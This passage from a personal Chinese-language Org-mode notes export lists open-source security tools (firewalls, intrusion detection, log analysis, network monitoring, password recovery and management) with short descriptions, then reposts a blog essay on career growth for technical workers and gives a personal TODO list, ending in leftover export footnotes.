借助于Endian Firewall社区版，你可以把一套老计算机变成一台UTM设备，包括防火墙、反病毒、垃圾信息过滤、应用级别防护、内容过滤、VPN。操作系 统：Linux。
32、Untangle
该工具已被2万多个机构的130万人使用，它所提供的功能与 Endian类似。除了免费版之外，它还提供对定制版的付费支持。操作系统：Linux。
33、NetCop UTM
NetCop把3个基本功能合并到一个应用工具中：保护系统远离恶意软件；监控用户的互联网行为；控制用户的互联网访问。借助于该工具，企业可以跟踪员 工的在线行为。操作系统：Linux。
4.5.6 入侵检测
34、Snort
Snort号称是当今部署最广泛的入侵检测和防护系统，是IPS的事实标准。其开发商是Sourcefire， 融合基于签名、协议和异常的检测于一体。操作系统：Linux、Unix和OS X。
35、AFICK
与 Tripwire非常类似，它可以监控用户文件系统的改变，从而提醒用户可能的入侵行为。运行速度快且安装简单。操作系统：Windows、 Linux。
36、snortinline
Snort的修改版，使用iptables和IPFW取代了 libpcap。该工具自称是“使用现有入侵检测系统（IDS）技术来判断数据包合法性的入侵防护系统（IPS）”。操作系统：Linux。 日志文件分析器
37、BASE
该软件名称是“Basic Analysis and Security Engine”(基本分析和安全引擎)的首字母缩写，它使用一个基于Web的界面来分析来自Snort IDS的告警。特色功能包含基于角色的用户认证和基于Web的设置。
38、IPtables Log Analyzer
借助于该工具，你可以轻松理解来自Shorewall、SUSE防火墙或基于Netfilter的防火墙的日志文件。可以将被拒绝、接受或伪装数据包在 一个HTML页面中展现。操作系统：Linux。
39、Snare
包括许多大企业在内的众多用户在使用不同版 本的Snare代理，来收集和分析安全、应用程序、系统、DNS、文件复制服务和活动目录的日志。其官网包含了针对不同操作系统的不同开源版本下载，另外 还包括商用版的Snare Server。操作系统：Windows、Linux和OS X等。
40、Splunk
Splunk可以分析来自任何应用程序、服务器或设备的数据，从而将其用于排障或调查安全事件。企业功能可免费使用60天。操作系统：Windows、 Linux、OS X。
4.5.7 辅助安全工具
41、Bastille UNIX
该工具可以加固用户系统安全，从而降低被攻击的可能性。它旨在使系统用户和管理员了解如何加固 系统。在其默认的最坚固模式下，它不断的询问用户问题，并对这些问题加以解释，根据用户对问题不同的回答选择不同的应对策略。在其评估模式下，它会生成一 份报告旨在告诉用户有哪些安全设置可用，同时也提示用户哪些设置被加固了。操作系统：Linux、Unix和OS X。
42、 OpenDisc
OpenDisc把Windows最受欢迎的开源软件集中在一起，其中包括本文提到的众多安全工具，诸如 ClamWin、TrueCrypt、 FileZilla和Win SCP等。操作系统：Windows。
43、Motion
本文中的多数应用程序是对用户的计算机系统提供保护，而Motion则是使用计算机系统来保护用户资产的安全。与摄像头连接后，Motion会跟踪记录 图片发生变化的时间，同时存储相关图片。操作系统：Linux。
44、iAlertU
iAlertU就像用户 MacBook的一个警报器。如果有人试图盗窃用户的MacBook，该软件将发出告警，甚至拍下“窃贼”的照片然后发送给用户。操作系统：Mac OS X。 网络/系统防火墙
45、IPCop
家庭和SOHO用户的理想之选，借助于IPCop，用户可以把一台老计算机连接到网络中当基于Linux的防火墙使用。易于使用且维护方便，但需要用户 具有一定网络知识。操作系统：Linux。
46、ShellTer
一个基于iptables的防火 墙，ShellTer提供大量定制功能。功能包括端口转发、黑名单、白名单等。操作系统：Linux。
47、Devil-Linux
该工具的最初设计目标是一个基于Linux的网络防火墙。它还可以被当作一个安全应用服务器，它是一个从光盘从USB移动硬盘上启 动和运行的完整版Linux。操作系统：Linux。
48、Turtle Firewall
如果你对网络安全 有很深的认识，该工具可以让你充分发挥的空间，它提供了大量配置选项和定制功能。你可以使用基于Web的配置界面，也可以直接编辑XML文件。操作系 统：Linux。
49、Shorewall
该工具对嵌入在Linux内核中的Netfilter防火墙进行配 置，尽管与某些Linux防火墙配置工具相比，它的易用性较差，但它是最灵活和最强大的工具之一。操作系统：Linux。
50、 FireHOL
FireHOL自称是“表达防火墙规则的语言。”通过它，使用4个简单命令可以对基于防火墙的iptables进行 配置。操作系统：Linux。
51、Sentry Firewall
类似Devil- Linux，Sentry Firewall也是从光盘上启动，可被用来把PC设置成防火墙或服务器。另外，它还可以配置成用户网络的入侵检测系统。操作系统：Linux。
52、Vuurmuur
该工具也是对Linux中的Netfilter/iptables防火墙进行配置。不过，和类似工具不同 的是，它不需要用户具有任何 iptables知识，它拥有一个易用的图形化界面。操作系统：Linux。
4.5.8 网络监控
53、Wireshark
昔日鼎鼎大名的Ethereal，可以捕获和交互式分析网络流量。作为当今最受欢迎的网络协议分析器，它拥有一个规模宏大的社区，其官网上包含大量文档 和支持信息。操作系统：Windows、Linux、OS X。
54、tcpdump
尽管它不像某些新程序一样 拥有很多有特色的功能，但是 它可以有效的监控网络，帮助管理员解决问题。操作系统：Linux。
55、WinDump
Windows版的tcpdump，其网站上还提供下载WinPCap数据包捕获和过滤引擎。操作系统：Windows。
56、 Angry IP Scanner
又叫ipscan，可以非常迅速的扫描IP地址和端口。它可以产生包括NetBIOS信息在内的 报表。操作系统：Windows、Linux和 OS X。
57、Knocker
Knocker是一个简单的 TCP安全端口扫描器，可以运行在多个平台上，易用性强。操作系统：Windows、Linux和Unix。
58、NSAT
“Network Security Analysis Tool”（网络安全分析工具）的首字母缩写，可以批量扫描50种不同服务和数百种漏洞。它提供专业级别的入侵测试和全面的审核功能。操作系 统：Linux、Unix、FreeBSD和OS X。
59、SniffDet
该工具可以执行大量不同的开源 测试，以检查网络中的计算机是否运行在混杂模式，或者是否存在嗅探器。该应用程序的部分文档使用的是葡萄牙语。操作系统：Linux。
60、SEC
尽管该工具被列入网络监控类别，它实际上可以作为多种不同的应用。使用该工具之前，用户需要设定规则，来确认特定事 件发生时用户所希望的操作。
4.5.9 密码破解
61、Ophcrack
密码破解并非总是恶意，很多时候忘记了重要的密码，这就用到了此类工具。Ophcrack号称可以在数秒时间内找回99%的密码。操作系 统：Windows、Linux、OS X。
62、KeePass Password Safe
该工具目前分 经典版和专业版两个版本，它可以将所有密码存储在一个加密数据库中，用户只需要记住一个密码即可。相比所有系统使用同一个密码或把密码写在文件中，这是一 个更安全的选择。操作系统：Windows。
63、KeePassX
最早的KeePassX仅支持 Windows操作系统，但现在的版本已经支持Windows、Linux或OS X。
64、Password Safe
和KeePass一样，Password Safe也将所有密码存储在一个加密数据库中。操作系统：Windows。
65、 PWGen
密码太简单往往容易被猜到。这个应用程序可以随机产生一个安全性强壮的密码，从而实现更好的防护。操作系 统：Windows。
66、Figaro's Password Manager
该工具可以使用对称算法来对 密码进行加密，它还具有一个密码产生器，还可以作为一个书签管理器。操作系统：Linux。
4.5.10 便携应用工具集
67、PortableApps.com
它可能是最为人所知的运行在移动硬盘上的开源和自由软件工具集，它包含几个安全相关的应用，包括ClamWin、KeePass和Eraser 的便携版。操作系统：Windows。
68、Democrakey.com
与该类别其它工具不同的 是，Democrakey实际只有一个用途：保护用户隐私，实现在线匿名。它分为两个版本：精简版包括Tor Browser、ClamWin便携版、Thunderbird便携版和TrueCrypt；完整版还包括AbiWord便携版和Gimp便携版。操作系 统：Windows。
69、winPenPack
这个开源和自由软件工具集包含许多安全工具，它分为好几个版 本，用户在选择时要根据自己的需要来作出选择。操作系统：Windows。
4.5.11 系统管理工具
70、xpy
该工具的大小只有60KB，仅支持Windows XP，可以提高XP系统的隐私保护、安全和性能。它修改了IE和Windows Media Player的设置，移除了Windows Messenger。操作系统：Windows
71、Inside Security Rescue Toolkit
又名INSERT，包含了数十个有用的安全和系统管理工具。除了一个基于Debian的完整版可引导 Linux系统外，用户还将获得反病毒保护、网络分析、数字取证等功能。操作系统：Linux。
73、Network Security Toolkit (NST)
Network Security Toolkit（NST）是一张可引导的自启动运行光盘，它基于Fedora Core。这份工具包被设计为能够方便地使用最好的开源网络安全应用软件，并应能在大多数x86平台上运行。开发该工具包的主要目的是向网络安全管理员提 供一套较全面的开源网络安全工具。
74、Startup Manager （可以用auotoruns替代）
借助于该工具，可以控制系统启动时运 行那些应用程序和服务，从而获得更好的性能和更高的安全性。操作系统：Windows。
4.5.12 用户认证
75、WiKID
该工具分为 免费的社区版和商业版，后者包含企业级支持。它能够提供强壮的双因子认证。它非常适合用于通过VPN或Citrix的远程网络访问、加固网络银行安全和外 网应用等。
5 thinking in thinking
5.1 【老孙随笔】搞技术永远没有出头之日吗？
技术人员如果不从事管理，是不是永远没有出头之日呢？ 在国内，搞技术也来越不吃香了。人们都想着投身公务员的行列，或是从事商业自己当老板。许多当年好友一谈起自己的技术事业来，就仿佛自己正驾驶着诺 亚方舟，意气风发挥斥方遒。然而多年以后，他们纷纷睿智而又深沉地选择了管理，再谈起技术，就仿佛在谈论一艘即将沉没的破船，有些回忆的伤感，可更多的却 是幸免于难的庆幸。 在IT业界，这种现象更加明显。作为最低层，程序员们好像已经从白领阶层退居蓝领大军。大家都很迷惘——莫非我们永无出头之日，永远要听别人使唤，永远没有做主的时候吗？ 前些日子，在一次读书会上的讨论中，我制作了一个PPT《梦幻职场规划》，并和大家分享我的一些工作心得。其中提到了这样一个观点：“你只要专注做 好一件事，依次把它做到部门第一、公司第一、地区第一、全国第一、全球第一的程度，你就是世界冠军了。瞧，规划出一个世界冠军就是这么容易，只需要五步。 ——找到一件事，把这件事做到超乎想象的程度，这就是最有意思的职场生涯。” 正在讲解时，有位朋友问：“如果我只是在一家不知名的小破公司从事技术工作，难道也能做到世界冠军吗？” 这个问题确实很有挑战，问的正是“技术工作如何出头”。当时我是这样回答的：
首先，如果你从事技术工作不出头，那通常是由于你只做公司的分内的技术工作。对这一点没有清醒认识就很难出头。 其次，如果你不是在谷歌这样本身工作就很有挑战性的企业里做技术的话，你要学会——【技术社会化】。技术社会化包含四个组成部分：
①分享——向社会分享自己的技术心得。 你可以通过博客等形式发布自己的工作或者学习心得，或是率先掌握一门新技术，并率先向社会推广这门新技术。分享是一门艺术。在分享的同时，一定会伴随着理 解、应用、总结、提高、表达甚至推广方面的提高，这对个人的技术提高和社会影响力的建立有着非常的意义。这一步做好了，你便已脱出了凡俗。有诗为证：小荷 正露尖尖角，沐浴春风来日长。 ②共进——结识志同道合伙伴共同提高。 一个人的学习是枯燥的，而且也是缺乏参照的，从而往往陷于低效之中。所以你需要找高手找志同道合者，和他们多交流向他们多学习，这样你不但能少走不少弯路，而且你的社交圈子也走出了自己的部门和公司，真正在社会上有了一席之地。 ③协同——参加开源项目、向高人学习。 学习很重要，但是实践更重要。因为实践是高效的、有结果的、可以检验的。而最好的实践莫过于参加网上开源项目。在这里，你能够碰到世界上最先进的技术、世 界上最牛的技术人。。。如果你想脱离井底之蛙的浅陋，脱离夜郎自大的无知，那么就请你认真地尝试一下“协同”。至少它能让你在很短时间里明白“什么叫全球 第一”“世界冠军该是怎样的”，而这些叫你明确了目标和方向。只有知道了这些，你才可能真正地摆脱无目的地努力，走上正确的航线。 ④修炼——闲着别上网看电视，修炼自己吧！ 能力不是天生的，是可以后天培养的；能力不是一成不变的，是可以学习提高的；一个人的成功，不是他做事的成功，而是他自我修炼的成功。想真正成为自己的主人，要真正掌控自己的命运，想有朝一日出头露脸，那么，修炼吧。 那么，要怎样修炼？——认真规划自己的目标和时间。第一，要找到一件事，把它当目标，然后发誓把这件事做到超乎想象的程度。第二，要学会利用时间。用长远的眼光来规划这件事，用短期角度来思考和执行这件事。 技术社会化的四个组成部分是相互关联、相辅相成的。这四条相互间配合地越好，你的效率将会越高。
记得多年前，在某个社区看过一个帖子——《一个华人技术者的自吹自擂》。这个标题是我乱写的，但原帖的内容主旨我记得很清楚： 帖主在美国改行学Java，花了两年时间读通了十多本Java著作，通过网络认识了所有作者并拜他们为师，两年后他的技术基本上超过了那些名家，就进入IBM做了Java架构师，专门负责别人解决不了的技术问题。当时我的感想就是——原来搞技术也是可以出头的啊！ 总而言之，只要你认真地执行技术社会化，即便你正在一家小破公司做着毫无技术含量可言的无聊工作，你仍然可以做到世界冠军，你仍然可以收获一个金光闪亮的职场生涯。
本文出自 “孙继滨的博客” 博客，请务必保留此出处http://sunjibin.blog.51cto.com/918334/417074
6 日常
6.1 TODO
- 毕业论文
- 论文模板[]
- 投稿论文
6.2 TODO 闲话系列整理
- 检查已校验文章是否完整
闲话１－２０，３１－５１，６５－７６，９３－１００未收到校验版本
- 收到raider 闲话整理 11-20
- 黑白的意外闲话整理93-100
- 在office 2007下统一修改页眉
Footnotes:
DEFINITION NOT FOUND.
org-export-date-timestamp-format defines how this timestamp will be exported.
DEFINITION NOT FOUND.
If you want to configure many options this way, you can use several #+OPTIONS lines.
The variable org-export-date-timestamp-format defines how this time-stamp will be exported.
If you want to configure many options this way, you can use several #+OPTIONS lines.
With the exception of ‘SETUPFILE’.
There is no buffer-wide equivalent for this property. The file name in this case is derived from the file associated to the buffer, if possible, or asked to the user otherwise.
But see the variable org-html-inline-images.
Installation instructions can be found on the MathJax website, see http://www.mathjax.org/resources/docs/?installation.html.
If you plan to use this regularly or on pages with significant page views, you should install MathJax on your own server in order to limit the load of our server.
For this to work you need to be on a system with a working LaTeX installation. You also need the dvipng program or the convert, respectively available at http://sourceforge.net/projects/dvipng/ and from the imagemagick suite. The LaTeX header that will be used when processing a fragment can be configured with the variable org-format-latex-header.
When MathJax is used, only the environments recognized by MathJax will be processed. When dvipng program or imagemagick suite is used to create images, any LaTeX environment will be handled.
If the classes on TODO keywords and tags lead to conflicts, use the variables org-html-todo-kwd-class-prefix and org-html-tag-class-prefix to make them unique.
This style is defined in the constant org-html-style-default, which you should not modify. To turn inclusion of these defaults off, customize org-html-head-include-default-style or set html-style to nil in an OPTIONS line.
Org mode parses these lines only when Org mode is activated after visiting a file. C-c C-c with the cursor in a line starting with ‘#+’ is simply restarting Org mode for the current buffer.
DEFINITION NOT FOUND.